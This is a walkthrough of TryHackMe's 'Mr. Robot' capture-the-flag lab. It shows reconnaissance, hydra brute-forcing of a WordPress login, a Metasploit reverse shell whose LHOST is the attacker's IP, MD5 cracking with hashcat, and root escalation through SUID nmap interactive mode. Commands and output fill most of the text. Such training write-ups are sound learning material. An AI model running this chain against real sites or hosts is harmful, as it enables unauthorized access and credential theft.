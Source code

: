 # MrRobot

Notes from challenges I did @ <https://tryhackme.com>.

This is a full write up of the "Mr. Robot" CTF @ <https://tryhackme.com/room/mrrobot>.

Connect to tryhackme via openvpn e.g.: ```sudo openvpn 0xfab1.ovpn```

Please note:

- Flags are not fully written to avoid copy & paste ;)
- I used an SSH-Tunnel in case you are wondering why I have "localhost" instead of an IP mentioned.

## Flag 1

Let's have a look at the environment:

```sh
IP="10.10.236.216"
nmap -sC -sV $IP
nikto -h $IP
```

Since there is a php based website served on port 80 and 443 via apache let us have a look at the available folders:

```sh
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$IP:80
```

We can see a lot of folders and that there is a wordpress login page.

Further things we can check:

- View html/css/js source -> nothing special
- View links on page -> text, videos, nothing special (but cool theme)
- View robots.txt -> first flag :)

In the robots.txt we find the first key ($IP/key-1-of-3.txt) and a dictionary file (probably for wordpress login @ $IP/login).

## Flag 2

Let's download the dictionary file "fsocity.dic" and have a look:

```sh
wget $IP/fsocity.dic
```

The file seems to be a password list but there are a lot of redundant entries. If we want to use this to brute-force login to the word-press admin portal we should remove all duplicate entries. We can use ```uniq``` for this but uniq expects a sorted list so we run the following:

```sh
sort fsocity.dic | uniq > uniqfsocity.dic
```

We can use hydra to brute-force http-post-form on the wordpress login page to find out the username. In case we get a "Invalid" the attempt failed.

```sh
hydra -L uniqfsocity.dic -p something $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid"
```

We find out the username "Elliot" is valid and abort hydra. Now let's use the same dictionary again to brute-force the password of Elliot. If a correct user logs in with an invalid password we can use "incorrect" as false trigger.

```sh
hydra -l Elliot -P uniqfsocity.dic -t 64 $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=incorrect."
```

This unfortunately takes some time but after a while we get the correct password for Elliot: ER28-0652

With access to the wordpress backend we can start Metasploit to exploit wordpress for a reverse shell:

```sh
msfdb init
msfconsole
db_nmap -sV 10.10.236.216
search wp
use exploit/unix/webapp/wp_admin_shell_upload
show options
set PASSWORD ER28-0652
set USERNAME Elliot
set RHOST 10.10.236.216
set LHOST 10.9.193.173
set LPORT 6666
show options
exploit
```

Unfortunantly I get an error running this saying wordpress is not available.
After seaching the web I find out possibly we can just ignore those errors in the used script. So lets open the script and comment out what stops the script and see what happens:

```sh
locate wp_admin_shell_upload  
sudo nano /usr/share/metasploit-framework/modules/exploits/unix/webapp/wp_admin_shell_upload.rb # comment out def exploit -> #fail_with
```

and run the exploit once more:

```sh
reload
exploit
```

I now get a new error so i just comment out all "fail_with" after "def exploit" and re-run the exploit once more:

```sh
reload
show options
exploit
```

Finally the exploit works and we have a reverse shell :)
Now let's look around:

```sh
meterpreter > ls
Listing: /home/robot
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100400/r--------  33    fil   2015-11-13 02:28:21 -0500  key-2-of-3.txt
100644/rw-r--r--  39    fil   2015-11-13 02:28:21 -0500  password.raw-md5
```

We see key 2 "key-2-of-3.txt" but can't access it. However, we can access "password.raw-md5":

```sh
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

This looks like the hashed password of user "robot". Let's find out what hash type is used by running ```hash-identifier```.

```sh
hash-identifier c3fcd3d76192e4007dfb496cca67e13b

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Let's crack the MD5 hash with ```hashcat``` using the rockyou password list.

```sh
hashcat -m0 --force c3fcd3d76192e4007dfb496cca67e13b /home/0xfab1/rockyou.txt

Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: /home/0xfab1/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 3 secs

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Guess.Base.......: File (/home/0xfab1/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   313.5 kH/s (0.32ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344384 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 36864/14344384 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: hockey5 -> loser69
```

The password for robot is abcdefghijklmnopqrstuvwxyz.
So back to the reverse shell and lets login as user "robot":

```sh
meterpreter > shell
Process 2226 created.
Channel 4 created.
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su -l robot
su -l robot
Password: abcdefghijklmnopqrstuvwxyz
cat /home/robot/key-2-of-3.txt
```

We now have access to "key-2-of-3.txt".

## Flag 3

Now as robot let us have a look at what we are allowed to do:

```sh
find / -user root -perm -4000 2>/dev/null

/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

We can exploit nmap (/usr/local/bin/nmap) with a vulnerability in the interactive mode since nmap is running with root privileges but we can trigger it as user robot:

```sh
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
cd /root
ls
firstboot_done  key-3-of-3.txt
cat key-3-of-3.txt
```

And there we have flag 3.

